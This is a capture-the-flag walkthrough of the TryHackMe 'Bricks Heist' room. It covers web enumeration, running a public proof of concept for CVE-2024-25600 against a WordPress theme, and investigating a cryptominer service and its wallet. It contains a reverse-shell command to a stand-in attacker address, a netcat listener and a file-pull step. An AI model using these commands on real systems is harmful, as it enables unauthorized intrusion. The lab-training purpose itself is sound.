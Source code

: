 # TryHack3M: Bricks Heist

This is the first challenge of the module TryHack3M Special for the reach of 3 million users on the platform. <br>
The official link to the room is [here](https://tryhackme.com/r/room/tryhack3mbricksheist)

In this room we are gonna practice with some web enumeration and exploitation, and finally do some OSINT.

Whenever you feel ready start the machine and connect via OpenVPN or the AttackBox.

<br/>
<br/>

## The Story
Brick Press Media Co. was working on creating a brand-new web theme that represents a renowned wall using three million byte bricks. Agent Murphy comes with a streak of bad luck. And here we go again: the server is compromised, and they've lost access.  
  
Can you hack back the server and identify what happened there?

<br/>
<br/>

## The Challenge

Before starting the recon phase let's edit the hosts file
```bash
sudo echo "MACHINE_IP" bricks.thm >> /etc/hosts
```

Now we can begin with a port scan using *nmap*
```bash
nmap -sV MACHINE_IP
```
We get the following ports open:
```
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     syn-ack ttl 63 WebSockify Python/3.8.10
443/tcp  open  ssl/http syn-ack ttl 63 Apache httpd
3306/tcp open  mysql    syn-ack ttl 63 MySQL (unauthorized)
```

Checking the website running on port 80 i got an error, so i went to check if maybe a site is running using the apache web-server: (port 443 is https)
```http
https://bricks.thm/
```

Doing a directory scan with *gobuster* i was able to see the robots.txt page, navigating to it we find another directory `/wp-admin` that takes us to a WordPress login page but we do not have the credentials.

We can use a tool called *wpscan* to gain more information about the website, as with *gobuster* we need to add the option to ignore the TSL check
```bash
 wpscan --url https://bricks.thm --disable-tls-checks
```
Reading the output notice that is running  version: 1.9.5, let's check online if there are any known vulnerabilities. 

And yes, we are lucky, there is CVE-2024-25600 which is a RCE vulnerability, looking around there is also a PoC in GitHub we can use. 
Here is the [Repo](https://github.com/Chocapikk/CVE-2024-25600)

Clone the repo
```bash
git clone https://github.com/Chocapikk/CVE-2024-25600.git
```

Now navigate in the directory and install the requirements
```bash
cd CVE-2024-25600
```
```bash
pip install -r requirements.txt 
```

We are ready to run the exploit
```bash
python exploit.py -u https://bricks.thm/
```

And in a couple of seconds we have a shell, now we can start looking around
```bash
ls -la
```
There is a very long filename with a txt extension, maybe is something interesting 
```bash
cat 650c844110baced87e1606453b93f22a.txt
```

Yes, it contains the first flag: --> REDACTED

It is now time to engage in further investigations about the hack, but first let's upgrade our shell
on the reverse shell
```bash
busybox ATTACKER_IP 1234 -e /bin/bash
```

on your machine
```bash
nc -lvnp 1234
```

now we got the connection, here use the python to upgrade the shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
We can also further enhance the shell making it interactive.

<br>

Looking at the second question we know we have to investigate for some rough process, we can use *systemctL* to do it
```bash
systemctl list-units --type=service --state=running
```

There is a service called "ubuntu.service" and inside the description has --> TRYHACK3M, this looks suspicious enough to procede.

We can discover more info about the process with:
```bash
systemctl status ubuntu.service
```
Here we can see what is actually running: --> REDACTED which is a file stored in the `/lib/NetworkManager` directory.

We can navigate to the location:
```bash
cd /lib/NetworkManager
```

Since the file is an executable and we need to investigate it, we can use Python to create a web-server inside the directory and request the file from our machine.

On the reverse shell:
```bash
python3 -m http.server 8090
```

In the attacker machine:
```bash
wget -O- http://MACHINE_IP:8090/nm-inet-dialog > suspicious-file  
```

Now we have the malicious file in our machine, we can upload it to Virustotal and see what information we can get. 

It says it is a Bitcoin miner, under behavior we can see it loads `/lib/NetworkManager/inet.conf`, this is of interest as is in the same directory as the executable.

Going back into the reverse shell we can open it with `cat` and notice that is a log file, this means we got the answer to another question.

Checking the log file we also get this bitcoin address id:
```
5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
```
Looking at it we can see it is encoded in hexadecimal, after decoding it we get a base64 string, decoding again we have again a base 64 string that finally decoded gives us the address
`bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa` or better, 2 addresses as every one start with `bc1`, so the final answer is 
--> REDACTED

Now we need to investigate the wallet transactions in order to see the threat group it is associated with.

To do it open any Bitcoin blockchain website that will show all the transactions related to a wallet, then scroll trough them and you will find this address: `bc1q5jqgm7nvrhaw2rh2vk0dk8e4gg5g373g0vz07r` who participated at the first transaction of 11 bitcoins.

Time to link the bitcoin wallet with some real entities, searching it online i found a US governative page which states that this address with others are in a special sanction list because they are affiliated with a Russian well known ransomware group that is: --> REDACTED

<br>
Congratulations, you have completed the First room of the 3 million special series, hope you had fun practicing and following along.

See you in the next challenge 😃
